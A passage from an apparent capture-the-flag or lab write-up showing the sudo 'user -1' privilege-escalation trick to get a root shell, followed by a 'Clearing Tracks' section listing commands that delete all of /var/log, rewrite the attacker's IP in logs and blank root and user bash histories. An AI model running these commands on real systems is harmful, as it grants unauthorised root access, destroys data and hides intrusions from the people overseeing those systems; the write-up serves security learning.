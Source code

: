 To run the exploit, instead of the intuitive:

```bash
sudo /bin/bash
```

Per the CVE writeups, you'd do the following to get a root prompt:

```bash
sudo -u#-1 /bin/bash
```


## Maintaining Access

TBD

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/kathy/.bash_history`
>  
> `cat /dev/null > /home/sam/.bash_history`

## Summary

Completed: [<kbd>CTRL</kbd>+<kbd>SHFT</kbd>+<kbd>I</kbd>]